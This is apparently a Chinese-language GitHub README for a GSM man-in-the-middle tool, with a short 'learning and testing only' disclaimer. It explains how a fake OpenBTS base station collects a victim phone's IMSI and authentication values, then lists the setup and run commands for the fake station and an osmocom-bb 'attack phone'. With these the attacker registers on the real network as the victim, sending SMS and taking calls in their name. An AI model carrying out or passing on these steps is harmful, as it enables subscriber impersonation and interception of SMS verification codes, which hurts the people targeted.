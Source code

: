 # 本程序仅供学习测试，请勿用于非法
# 指路
## gsm中间人攻击的伪基站部分 
https://github.com/Qmeimei10086/OpenBTS-gsm-mitm  
## gsm中间人攻击的攻击手机部分
https://github.com/Qmeimei10086/mobile-gsm-mitm  
# 原理
## 以下为正常的手机附着基站流程
![alt text](https://github.com/Qmeimei10086/gsm-mitm/blob/main/Attachment-flow-chart.jpg)  
我们可以看到2G gsm的鉴权是单向鉴权，既手机不会检验基站的安全性，这也给了我们伪基站的机会    
如上图所示，其中IMEI(国际移动设备识别码)并不重要,关键的鉴权步奏是2,3,6,7,这四步的数据来自sim卡 
这也意味着，只要我们拥有IMSI,RAND,SRES这四个数据，即使我们没有sim卡，也可以在真实基站上附着  
想到这里，我们的GSM中间人攻击计划变呼之欲出了  
## 以下为GSM中间人攻击的流程
![alt text](https://github.com/Qmeimei10086/gsm-mitm/blob/main/gsm-mitm-flow-chart.jpg)
如图所示，我们巧妙的运用伪基站，获取了鉴权所需的所有信息  
现在，我们可以完美的替代真正的手机在真实基站上注册，可以用它的身份干任何它能干的事，代替他发短信，接电话等等  
相当于没有碰到他去悄无声息的把他的sim卡给偷了
# 配置
## 注意请尽可能使用实体机而不是虚拟机，因为gsm对有时间及其严格的要求，使用虚拟机可能有延迟，产生意想不到的错误
## 推荐编译环境：Ubuntu16.04 推荐直接运行可执行文件环境：Ubuntu20.04   以上两个版本已经多次提供实验
请确保你已经完美安装了上文所说的OpenBTS和mobile 
接下来，你需要替换OpenBTS可执行文件的目录下的server.py文件  
在该目录下创建open_mitm文件或者在OpenBTS已运行的情况下运行OpenBTSCLI，并执行mitm_open命令  
参考: https://github.com/Qmeimei10086/OpenBTS-gsm-mitm
## 使用已编译过的程序
我依然提供了编译好的程序以及所需的动态链接库 
```javascript
#配置OpenBTS
cd OpenBTS
cp *.so.* /usr/lib
chmod +x ./*
mkdir /etc/OpenBTS
sqlite3 -init OpenBTS.exmaple.sql /etc/OpenBTS/OpenBTS.db ".quit"
sqlite3 -init subscriberRegistry.example.sql /etc/OpenBTS/sipauthserve.db ".quit"
这时候你就可以愉快的修改OpenBTS.db这个配置文件啦

#配置osmocom-bb
cd mobile
cp *.so.* /usr/lib
chmod +x ./*
```
# 运行
开三个终端分别OpenBTS,sipauthserse和server.py，这是伪基站的部分  
```javascript
./OpenBTS
./sipauthserse
python3 server.py
```
此时等待手机附着在我们的伪基站上  
当有设备附着时server.py会有信息提示  
此时在server.py的终端下输入tmsis指令可以查看附着的设备  
此时使用set imsi [你所需要攻击的imsi] 设置目标imsi  
或者直接编辑server.py将IMSI的值改为你所需要攻击的imsi  
设置完之后，运行攻击手机 开两个终端
```javascript
cd osmocom-bb/src/host/osmocon
./osmocon -m c123xor -p /dev/ttyUSB0 -c ../../target/firmware/board/compal_e88/layer1.highram.bin

cd osmocom-bb/src/host/layer23/src/mobile
./mobile -c default.cfg
```
此时不出意外的攻击手机已经在搜索并附着在基站上了    

# 关于作者
bilibili：https://space.bilibili.com/431312664?spm_id_from=333.1007.0.0  
有问题来这里找我，本人已高三，可能不能及时回 
# 查看
参考论文：张浩 基于USRP的无线移动通信网络隐蔽定点攻击研究 西安电子科技大学 June 2018
https://www.doc88.com/p-6314772688570.html?_refluxos=a10

参考报道：如何利用LTE4G伪基站GSM中间人攻击攻破所有短信验证，纯干货！|硬创公开课
https://mr.baidu.com/r/1mu2ZKDWZc4?f=cp&u=eaecb9839550917e

参考视频：GSM中间人攻击演示 科技张工
https://b23.tv/oMYL3BO
# Finally
另外两个库里已经讲得够多了,这里就不讲了吧  
第一次写教程,多多海涵  
看我画了这么好看的流程图，给我个star嘛QwQ
